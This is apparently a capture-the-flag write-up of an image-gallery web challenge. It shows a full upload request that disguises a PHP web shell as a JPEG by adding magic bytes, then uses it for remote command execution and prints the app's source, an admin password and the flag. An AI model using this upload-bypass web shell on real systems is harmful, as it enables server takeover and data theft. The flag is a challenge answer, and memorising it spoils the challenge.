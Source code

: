 ![](../img/TPG.png)


# Information gathering

Entering the page the user is presented with a choice "Upload your artwork" or Browse the gallery.  
![](../img/TPG_First.png)


Entering the gallery the user is presented with multiple images with random names.  
![](../img/TPG_Gallery.png)


Uploading an image the apps adds random string of characters in front of the original name of the file when uploading.

Using the upload form to upload a image gives the redirects the user to the gallery page.  
![](../img/TPG_Upload.png)

Image is needed here, because the markdown breaks when uploading to Github. But further request and responses the magic bytes are replaced with ```[magic bytes here]``` 
![](TPG_jpgdata.png)


So to find the upload images the user need to browse the gallery or enter the ```/uploads``` endpoint to find the last uploaded image.  
![](../img/TPG_Uploads.png)


From here it's possible to access a image directly.  
![](../img/TPG_Georgie.png)


Trying to upload a new image with the same name but containing a simple webshell written in PHP an error is returned.  
```http
HTTP/1.1 200 OK
[...]
        <section class="main-content">
            <h2>Contribute to the Royal Archive</h2>
            
            
                
                    <div class="messages">
                        
                            <div class="message">File does not appear to be a valid image</div>
                        
                    </div>
[...]
```


But using a file signature or "magic bytes" it's possible to bypass this validation on the backend.  
https://en.wikipedia.org/wiki/List_of_file_signatures  
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJfHPOnzvhptO9nuH
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJfHPOnzvhptO9nuH
Content-Disposition: form-data; name="image"; filename="test_shell_data.php.jpg"
Content-Type: image/jpeg

[magic bytes here]

<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryJfHPOnzvhptO9nuH--
```

Accessing the newly uploaded "image" an error message occurs that tells the attacker that the script is executed.  
![](../img/TPG_Accessing_web_shell.png)


# Attack
Adding the query string to the script endpoint (```command```) it's possible to execute commands on the server.  
Requesting ```ls ..``` to list content from the parent folder.  
```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=ls%20.. HTTP/1.1
Host: 134.122.88.8:5005
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkltYWdlIHVwbG9hZGVkIHN1Y2Nlc3NmdWxseSEgVmlldyBpdCBpbiB0aGUgZ2FsbGVyeS4iXX1dfQ.aBeWfg.d22GsPv3qqc09pG-FnFEJBeeQiE
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:35:53 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 122

[magic bytes here]

Dockerfile
app.py
backup.bak
docker-compose.yml
requirements.txt
start.sh
static
templates
uploads
uploads
```

Adding ```cat app.py``` to the query.
```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:41:37 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 4245

[magic bytes here]

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory, session
import os
import imghdr
import secrets
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['SECRET_KEY'] = secrets.token_hex(16)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB max size
app.config['ADMIN_PASSWORD'] = 'Anubis_Guardian_1337'  # For admin section
app.config['FLAG'] = 'O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}'
```

```Flag: O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}```